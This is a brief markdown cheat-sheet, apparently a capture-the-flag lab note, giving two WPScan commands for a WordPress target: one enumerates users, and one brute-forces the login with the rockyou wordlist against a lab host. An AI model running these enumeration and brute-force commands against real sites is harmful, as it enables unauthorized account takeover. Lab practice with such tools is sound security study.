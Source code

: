 # Wordpress
Enumerating users using WPscan -- ``` wpscan --url (url) --enumerate u`
Brute forcing login -- ```wpscan -U (text file containing users) -P /usr/share/wordlists/rockyou.txt --url http://blog.thm```
